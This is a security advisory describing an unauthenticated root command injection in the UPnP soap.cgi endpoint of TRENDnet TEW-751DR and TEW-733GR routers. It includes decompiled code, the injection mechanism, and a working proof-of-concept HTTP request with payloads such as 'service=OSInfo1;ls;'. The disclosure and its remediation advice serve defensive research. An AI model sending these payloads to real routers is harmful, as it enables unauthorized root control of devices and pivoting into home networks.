



# TRENDnet TEW-751DR / TEW-733GR: Unauthenticated Command Injection (CWE-78) in `soapcgi_main` (`/soap.cgi` / `service`)

## Summary

The UPnP IGD control endpoint `soap.cgi` on TRENDnet TEW-751DR and TEW-733GR (firmware 1.03B01)
copies the `service` query parameter into a shell command line without any validation or
escaping. A request to `/soap.cgi?service=OSInfo1;ls;` executes `ls` on the device; the command output
lands on the CGI's stdout (see the note on output ordering below), and `?service=OSInfo1;ls>pwned3;`
writes a file as `root`. No authentication is required.

## Impact

- **Impact type:** Remote Command Execution as `root` (the CGI runs as root)
- **Authentication required:** no
- **User interaction:** none
- **Reachability:** UPnP IGD HTTP service, 49152/tcp (LAN side); WAN exposure not verified
- **What an attacker gets:** any shell command, with the same privileges as the web server —
  change nvram, open telnet, rewrite the admin password, pivot into the LAN

## Affected Products

- **Vendor:** TRENDnet
- **Products:** TEW-751DR v1, TEW-733GR v1
- **Vulnerability type:** OS Command Injection (CWE-78)

### Tested vulnerable firmware

- TEW-751DR 1.03B01 — sha256 `fe1168fc2b2bf4744df3a7145eeaf11b2c5272ae502c8f2993e5c614499322ec`
- TEW-733GR 1.03B01 — sha256 `6a7b982ce6a711bfaefc5e903149f0f697a821453a275a6782fb3382510ba54a`

**Firmware download address:**
- https://download.trendnet.com/TEW-751DR/firmware/TEW-751DRv1_(FW1.03B01).zip
- https://download.trendnet.com/TEW-733GR/firmware/TEW-733GRv1_(FW1.03B01).zip

> Both images ship a byte-identical `htdocs/cgibin`
> (sha256 `e27547940d0ae75233fc6b2b64c50d37fc3b55d4dea9d86bbb86dd448f08a7eb`),
> so the same machine code is on both models.

## Attack Vector

- **Entry point:** `POST /soap.cgi?service=<payload>` on the UPnP HTTP service (49152/tcp)
- **Injection parameter:** the `service` query value
- **Required headers:** `Content-Type: text/xml`, `SOAPAction` containing `#`
- **Authentication:** not required
- **User interaction:** not required

## Technical Details

### 0. The device's own httpd delivers the query string in `REQUEST_URI`

`soapcgi_main` only reacts when `getenv("REQUEST_URI")` contains `?service=`. That is not an
assumption about the test harness: the vendor's `/sbin/httpd` builds the CGI environment in
`process_cgi` (`0x4028f0`), where the query string is copied verbatim and `REQUEST_URI` is
produced with

```c
sprintf(buf, "%s?%s", path, query_string);
setenv("REQUEST_URI", buf, 1);
```

so `POST /soap.cgi?service=...` reaches the CGI as `REQUEST_URI=/soap.cgi?service=...`, which is
exactly the form the vulnerable handler parses.


`soap.cgi` is not a file in the image; it is a symlink created at boot by
`etc/services/HTTP/httpsvcs.php:134`:

```php
startcmd("ln -s /htdocs/cgibin ".$vdir."/soap.cgi");
```

`main()` in `htdocs/cgibin` dispatches on `basename(argv[0])`, so `soap.cgi` reaches
`soapcgi_main` (`0x40e2b0`). That function performs **no authentication**: its only guard is a
file lock on `/var/run/soap.lock` (`FUN_0040e0a4`), and none of the eight web CGIs' checks
(`sess_ispoweruser` / `sess_validate`) appear anywhere in it.

After the `?service=` prefix check, the value is used verbatim:

```c
param3 = (char *)(iVar4 + 9);                  /* everything after "?service=" */
sprintf(&DAT_00434c60, "%s/ACTION.%s.php\n...", "/htdocs/upnp", param3, ...);
iVar4 = xmldbc_ephp_wb(0, 0, &DAT_00434c60, &DAT_00433c60, 0x1000);
if (iVar4 == 0) {                              /* phpserver reachable */
  sprintf(&DAT_00434c60, "%s/%s_%d.sh", "/var/run", param3, getpid());
  param0 = fopen(&DAT_00434c60, "w");
  if (param0 != 0) {
    fprintf(param0, "rm -f %s/%s_%d.sh", "/var/run", param3, getpid());
    fclose(param0);
    sprintf(&DAT_00434c60, "sh %s/%s_%d.sh > /dev/console &",
            "/var/run", param3, getpid());
    system(&DAT_00434c60);                     /* <-- injection */
  }
}
```

The resulting shell line is `sh /var/run/<service>_<pid>.sh > /dev/console &`. Because
`<service>` is unquoted, a `;` in it terminates the first command and the rest is executed as a
new one. Note `xmldbc_ephp_wb()` only returns 0 when it can *connect to the phpserver socket* —
it never checks whether `ACTION.<service>.php` exists, so an arbitrary `service` value still
passes.

## Proof of Concept (PoC)

### Steps to reproduce

1. Extract the firmware and confirm the `cgibin` hash above.
2. Run `soap.cgi` inside the firmware's own root filesystem (qemu-user + `chroot`, static
   busybox as `/bin/sh`), or send the request to a device with UPnP enabled.
3. Send the control request (`service=OSInfo1`) and then the payload (`service=OSInfo1;ls;`).

### Example request

```http
POST /soap.cgi?service=OSInfo1;ls; HTTP/1.1
Host: 192.168.10.1:49152
SOAPAction: "urn:schemas-upnp-org:service:OSInfo:1#GetInfo"
Content-Type: text/xml
Content-Length: 4

<a/>
```

### Verification

Both requests were sent through Yakit's MITM proxy to the emulated firmware.

**Figure 1 — control, `service=OSInfo1`**: `Content-Length: 0`, `X-CGI-Exit: 0`.



**Figure 2 — payload, `service=OSInfo1;ls;`**: `Content-Length: 130`, and the response body is
the root filesystem listing produced by the injected `ls` (`h2 tmp home var qemu-mips-static
pwned_sh sbin dev lib htdocs usr proc mnt www etc bin sys`) followed by the CGI's own HTTP
response.

**Figure 3 — the same thing without a proxy, control vs. two payloads, plus the file side
effect.** `service=OSInfo1;ls;` puts the listing on the CGI's stdout; `service=OSInfo1;ls>pwned3;`
writes a 94-byte file as `root`. The control request creates nothing.



> **Note on the command output.** In the emulation the CGI's stdout is relayed to the client, so
> the listing is visible in the response body. The child process writes the listing to file
> descriptor 1 while the CGI's own status line sits in a buffered stream, so on a real device the
> output can be emitted *before* the CGI status line, in which case a strict HTTP server may drop
> it. Treat **blind command execution with file side effects** (`;ls>file;` in Figure 3) as the
> reliable primitive; response-body output is a bonus, not a guarantee.



The only difference between the two requests is the `service` value; everything else
(method, path, SOAPAction, body) is identical.

## Limitations

- Verified on emulated firmware only, not on physical hardware.
- WAN-side reachability of the UPnP/IGD service was not verified; the CVSS vector uses `AV:A`.
- TEW-752DRU ships a different `cgibin` and is not covered by this report.
- The vendor has not been contacted about this issue.

## Suggested Remediation

- Treat `service` as an enum: only proceed when `ACTION.<service>.php` exists under
  `/htdocs/upnp/`; otherwise return 404.
- Do not build shell command lines from request data — `execv()` with an argv array, or at
  minimum strict shell quoting.
- Restrict the UPnP control endpoint to the LAN side.

## CVSS

`CVSS:3.1/AV:A/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` — 8.8 (High)
